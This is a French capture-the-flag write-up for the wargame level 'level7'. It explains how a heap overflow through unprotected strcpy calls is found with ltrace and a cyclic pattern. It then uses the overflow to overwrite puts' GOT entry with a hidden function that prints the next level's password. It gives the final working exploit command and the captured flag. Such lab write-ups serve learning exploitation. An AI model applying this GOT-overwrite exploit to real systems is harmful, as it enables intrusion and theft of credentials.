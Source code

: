 L'executable demande 2 arguments, les 2 arguments vont etre stocker dans 2 variable differentes via des strcpy.
Les strcpy ne sont pas proteger donc on peux supposer qu'un buffer overflow sera utiliser.

Analysons le main
4 malloc sont effectuer afin de preparer les arguments pour les strcpy
arg1 est copier dans 0x0804a018
arg2 est copier dans 0x0804a038
puis le fichier .pass de l'user8 est ouvert et le contenu est enregister dans une variable a l'adresse 0x8049960
enfin la fonction fini par un appel a puts@plt qui imprime "~~"

Via info functions dans gdb  on remarque uen fonction m non utiliser
cette fonction a l'adresse 0x080484f4 print le resultat de la fonction time ET notre variable 0x8049960 qui contien le .pass

On souhaite donc executer la fonction m apres l'appel du fopen dans main
On peux supposer que l'appel de puts@plt est vulnerable en utilisant un overwrite du GOT en remplacant l'addresse de puts() par m()

Etant donner que malloc est utiliser pour les arguments des strcpy regardons leurs adr via  ltrace
--ltrace ./level7 aaaa aaaa
malloc(8)                    = 0x0804a008 (1)
malloc(8)                    = 0x0804a018 (2)
malloc(8)                    = 0x0804a028 (3)
malloc(8)                    = 0x0804a038 (4)
strcpy(0x0804a018, "aaaa")   = 0x0804a018 (1 -> 2)
strcpy(0x0804a038, "aaaa")   = 0x0804a038 (3 -> 4)

si on segfault en aggrandisant (1) on remarque:
--ltrace ~/level7 aaaaaaaaaaaaaaaaaaaaaaaaaaaaa aaaa
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  = 0x0804a018
strcpy(0x61616161, "aaaa" <unfinished ...>

Le programme segfault car notre argument (1) stocker a 0x0804a008 a overwrite notre argument (3) a 0x0804a028

En trouvant l'offset ( qui est de 0x20 ) on peut manipuler l'addresse de destination du 2eme strcpy afin d'y mettre ce que l'on souhaite grace a (4) a l'endroit 0x0804a038

Encore une fois utilisons des pattern pour trouver l'offset et nous simplifier la vie:
-- ltrace ~/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab AAAA
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>

0x37614136 --> 20

verifions cela
-- ltrace ./level7 `python -c "print('A'*20 + 'BBBB')"` AAAA
strcpy(0x42424242, "AAAA" <unfinished ...>

Cela fonctionne, maintenant nous pouvons chercher l'addresse ou est stocker notre fonction puts et la remplacer par notre fonction m

-- readelf -r ./level7
08049928  00000607 R_386_JUMP_SLOT   00000000   puts

0x08049928 est notre emplacement et l'addresse de m est 0x080484f4

Maintenant que nous avons tous nous pouvons essayer d'executer m
-- ./level7 `python -c "print('A'*20 + '\x28\x99\x04\x08')"` `python -c "print('\xf4\x84\x04\x08')"`

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

